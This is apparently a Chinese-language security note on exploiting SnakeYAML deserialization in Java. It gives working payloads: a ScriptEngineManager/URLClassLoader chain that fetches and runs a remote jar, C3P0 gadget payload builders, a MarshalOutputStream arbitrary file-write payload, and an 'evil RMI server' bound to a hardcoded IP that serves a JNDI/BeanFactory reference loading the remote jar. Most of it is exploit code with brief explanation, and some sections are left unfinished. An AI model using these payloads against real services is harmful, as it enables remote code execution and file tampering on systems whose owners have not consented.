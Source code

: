 # SnakeYaml 利用
## 原理

```java
String payload =
    "!!javax.script.ScriptEngineManager [\n" +
    "  !!java.net.URLClassLoader [[\n" +
    "    !!java.net.URL [\"http:/ip/yaml-payload.jar\"]\n" +
    "  ]]\n" +
    "]";
Yaml yaml = new Yaml();
yaml.load(payload);
```

触发的 Source 为构造方法 `<init>` 和 `setter`。

在上面的例子中，可以通过 `ScriptEngineManager` 的 `<init>` 进入 SPI 流程触发 `next()` 远程加载恶意类触发。

```java
/**
    * Dependencies: null
    *
    * ScriptEngineManager <init>
    *  -> next()
    *    -> SPI
    *      -> [Self Class] implements ScriptEngineFactory <init>
    */
```

如果是 call `setter` 需要使用以下方式构造: 

```yaml
!!test.snakeyaml.User { name: SilentE }
# or
!!test.snakeyaml.User
  name: SilentE
```

并且要满足字段可见性不是 `public` (若是 `public` 那么 snakeyaml 会走反射赋值而不是 `setter`)。

如果是 call `constructor` 需要使用以下方式构造: 

```yaml
!!test.snakeyaml.User [ !!str SilentE ]
# or
!!test.snakeyaml.User 
  - SilentE
```

需要保证该类有相应的 constructor 方法。

## 一些链子

其实可以看出 `setter` 和构造方法来做为入口，可以考虑 FastJson 相关的利用。

### C3P0

```java
/**
    * Dependencies: com.mchange:c3p0:0.9.5.2
    *
    * com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase <setter>
    *  -> VetoableChangeSupport#fireVetoableChange
    *      -> WrapperConnectionPoolDataSource$1#vetoableChange
    *        -> C3P0ImplUtils#parseUserOverridesAsString
    *          -> [static] SerializableUtils#deserializeFromByteArray
    *            -> readObject
    */
public String C3P0PoolDataSource(String hexStr) {
    return String.format(
            "!!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\n" +
            "  userOverridesAsString: 'HexAsciiSerializedMap:%s;'"
            , hexStr);
}

/**
    * Dependencies: com.mchange:c3p0:0.9.5.2
    *
    */
public String C3P0JNDIRefForwardingDataSource(String url) {
    return String.format(
            "!!com.mchange.v2.c3p0.JndiRefForwardingDataSource\n" +
            "  jndiName: \"%s\"\n" +
            "  loginTimeout: 0", url);
}
```

### WriteFile

```java
/**
    * Dependencies: null
    *
    * MarshalOutputStream <init>
    *   -> ObjectOutputStream <init>
    *     -> ObjectOutputStream#setBlockDataMode
    *       -> ObjectOutputStream#drain
    *         -> write
    */
public String WriteFile(String path, String b64Content) {
    return String.format("!!sun.rmi.server.MarshalOutputStream [\n" +
            "  !!java.util.zip.InflaterOutputStream [\n" +
            "    !!java.io.FileOutputStream [\n" +
            "      !!java.io.File [\"%s\"],\n" +
            "      false," +
            "    ],\n" +
            "    !!java.util.zip.Inflater { input: !!binary %s },\n" +
            "    114514\n" +
            "  ]\n" +
            "]"
            , path, b64Content);
}
```

### ReadFile

### JNDI

太多了，以后慢慢补，先来个高版本 JNDI 本地工厂类打 snakeyaml：

```java
public class Service {  
    public static void main(String[] args)throws Exception {  
        System.setProperty("java.rmi.server.hostname","8.142.104.78");  
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");  
        Registry registry = LocateRegistry.createRegistry( 6666);  
        ResourceRef ref = tomcat_snakeyaml();  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("calc", referenceWrapper);  
    }  
    public static ResourceRef tomcat_snakeyaml(){  
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",  
                true, "org.apache.naming.factory.BeanFactory", null);  
        String yaml = "!!javax.script.ScriptEngineManager [\n" +  
                "  !!java.net.URLClassLoader [[\n" +  
                "    !!java.net.URL [\"https://ip/yaml-payload.jar\"]\n" +  
                "  ]]\n" +  
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));  
        ref.add(new StringRefAddr("a", yaml));  
        return ref;  
    }  
}
```

To be continue...

## 参考

- [Java SPI 机制](https://pdai.tech/md/java/advanced/java-advanced-spi.html)
- [Snake Yaml](https://tttang.com/archive/1815)
- [FastJson 相关](https://github.com/safe6Sec/Fastjson)
- [高版本 JDK 下 JNDI 漏洞的利用](https://tttang.com/archive/1405/)